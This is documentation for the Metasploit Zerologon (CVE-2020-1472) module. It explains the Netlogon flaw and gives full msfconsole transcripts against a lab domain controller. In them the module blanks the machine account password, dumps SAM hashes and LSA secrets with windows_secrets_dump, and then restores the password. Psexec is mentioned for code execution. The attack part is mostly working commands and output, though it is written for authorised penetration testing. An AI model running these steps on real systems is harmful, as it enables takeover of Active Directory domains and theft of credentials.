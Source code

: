 ## Vulnerable Application
A vulnerability exists within the Netlogon authentication process where the security properties granted by AES are lost
due to an implementation flaw related to the use of a static initialization vector (IV). An attacker can leverage this
flaw to target an Active Directory Domain Controller and make repeated authentication attempts using NULL data fields
which will succeed every 1 in 256 tries (~0.4%). This module leverages the vulnerability to reset the machine account
password to an empty value, which will then allow the attacker to authenticate as the machine account. After
exploitation, it's important to restore this password to it's original value. Failure to do so can result in service
instability.

The `auxiliary/gather/windows_secrets_dump` module can be used to recover the original machine account password which
can then be restored with this module by using the `RESTORE` action and setting the `PASSWORD` value.

## Verification Steps

1. Exploit the vulnerability to set the machine account password to a blank value
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2020_1472_zerologon`
    1. Set the `RHOSTS` and `NBNAME` values
    1. Run the module and see that the password was set to a blank value
1. Recover the original machine account password
    1. Do: `use auxiliary/gather/windows_secrets_dump`
    1. Set the `RHOSTS` values
    1. Set the `SMBUser` option to the NetBIOS name with a trailing `$`, e.g. `NBNAME$`
    1. Set the `SMBPass` option to the value of an empty password (`aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0`)
    1. Run the module and search for the password in the output (`NBNAME$:plain_password_hex:`)
1. Restore the original machine account password
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2020_1472_zerologon`
    1. Set the action to `RESTORE`
    1. Set the `RHOSTS`, `NBNAME` and `PASSWORD` values
    1. Run the module and see that the original value was restored

## Options

### NBNAME

The NetBIOS name of the target domain controller. You can use the `auxiliary/scanner/netbios/nbname` module to obtain
this value. If this value is invalid the module will fail when making a Netlogon RPC request.

### PASSWORD

The hex value of the original machine account password. This value is typically recovered from the target system's
registry (such as with the `auxiliary/gather/windows_secrets_dump` module) after successfully setting the value to blank
within Active Directory using this module and the default `REMOVE` action.

This value is only used when running the module with the `RESTORE` action.

## Scenarios

### Windows Server 2019

First, set the machine account password to the empty value

```
msf6 > use auxiliary/admin/dcerpc/cve_2020_1472_zerologon 
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set RHOSTS 192.168.159.53 
RHOSTS => 192.168.159.53
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set NBNAME WIN-GD5KVDKUNIP
NBNAME => WIN-GD5KVDKUNIP
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > show options 

Module options (auxiliary/admin/dcerpc/cve_2020_1472_zerologon):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   NBNAME  WIN-GD5KVDKUNIP  yes       The server's NetBIOS name
   RHOSTS  192.168.159.53   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                    no        The netlogon RPC port (TCP)


Auxiliary action:

   Name    Description
   ----    -----------
   REMOVE  Remove the machine account password


msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > run
[*] Running module against 192.168.159.53

[*] 192.168.159.53: - Connecting to the endpoint mapper service...
[*] 192.168.159.53:6403 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.53[6403] ...
[*] 192.168.159.53:6403 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.53[6403] ...
[+] 192.168.159.53:6403 - Successfully authenticated
[+] 192.168.159.53:6403 - Successfully set the machine account (WIN-GD5KVDKUNIP$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) >
```

At this point the `exploit/windows/smb/psexec` module can be used to achieve code execution if desired. Set the `SMBUser` option to the
machine account and the `SMBPass` option to the empty password value.

Next, recover the original machine account password value using `auxiliary/gather/windows_secrets_dump`. Look for the `plain_password_hex`
value in the `$MACHINE.ACC` section.

```
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > use auxiliary/gather/windows_secrets_dump 
msf6 auxiliary(gather/windows_secrets_dump) > set RHOSTS 192.168.159.53
RHOSTS => 192.168.159.53
msf6 auxiliary(gather/windows_secrets_dump) > set SMBUser WIN-GD5KVDKUNIP$
SMBUser => WIN-GD5KVDKUNIP$
msf6 auxiliary(gather/windows_secrets_dump) > set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
SMBPass => aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf6 auxiliary(gather/windows_secrets_dump) > run
[*] Running module against 192.168.159.53

[*] 192.168.159.53:445 - Service RemoteRegistry is already running
[*] 192.168.159.53:445 - Retrieving target system bootKey
[+] 192.168.159.53:445 - bootKey: 0xa11f7c33c8bab9e427dec59436dbb17d
[*] 192.168.159.53:445 - Saving remote SAM database
[*] 192.168.159.53:445 - Dumping SAM hashes
[*] 192.168.159.53:445 - Password hints:
No users with password hints on this system
[*] 192.168.159.53:445 - Password hashes (pwdump format - uid:rid:lmhash:nthash:::):
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6df12cddaa88057f06a80b5ee73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d17ae931b73c5ad7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d17ae931b73c5ad7e0c089c0:::
[*] 192.168.159.53:445 - Saving remote SECURITY database
[*] 192.168.159.53:445 - Decrypting LSA Key
[*] 192.168.159.53:445 - Dumping LSA Secrets
$MACHINE.ACC
EXCHG\WIN-GD5KVDKUNIP$:plain_password_hex:4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
EXCHG\WIN-GD5KVDKUNIP$:aes256-cts-hmac-sha1-96:127c328739d4406e6734684b971709acb2215f947b961355fa25b9b3fda38a08
EXCHG\WIN-GD5KVDKUNIP$:aes128-cts-hmac-sha1-96:becbe21ab050ccb1d8a5b908839fd95f
EXCHG\WIN-GD5KVDKUNIP$:des-cbc-md5:b5f843cec2e56220
EXCHG\WIN-GD5KVDKUNIP$:aad3b435b51404eeaad3b435b51404ee:ec3a7fa2158f1f705898d538ad3aafaf:::
...

[*] 192.168.159.53:445 - Decrypting NL$KM
[*] 192.168.159.53:445 - Dumping cached hashes
No cached hashes on this system
[*] 192.168.159.53:445 - Cleaning up...
[*] Auxiliary module execution completed
msf6 auxiliary(gather/windows_secrets_dump) >
```

Finally, restore the original value using this module.

```
msf6 auxiliary(gather/windows_secrets_dump) > use auxiliary/admin/dcerpc/cve_2020_1472_zerologon 
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set ACTION RESTORE 
ACTION => RESTORE
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set PASSWORD 4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
PASSWORD => 4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > show options 

Module options (auxiliary/admin/dcerpc/cve_2020_1472_zerologon):

   Name      Current Setting                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   Required  Description
   ----      ---------------                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   --------  -----------
   NBNAME    WIN-GD5KVDKUNIP                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   yes       The server's NetBIOS name
   PASSWORD  4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d  no        The password to restore for the machine account (in hex)
   RHOSTS    192.168.159.53                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       no        The netlogon RPC port (TCP)


Auxiliary action:

   Name     Description
   ----     -----------
   RESTORE  Restore the machine account password


msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > run
[*] Running module against 192.168.159.53

[*] 192.168.159.53: - Connecting to the endpoint mapper service...
[*] 192.168.159.53:6403 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.53[6403] ...
[*] 192.168.159.53:6403 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.53[6403] ...
[+] 192.168.159.53:6403 - Successfully set machine account (WIN-GD5KVDKUNIP$) password
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) >
```

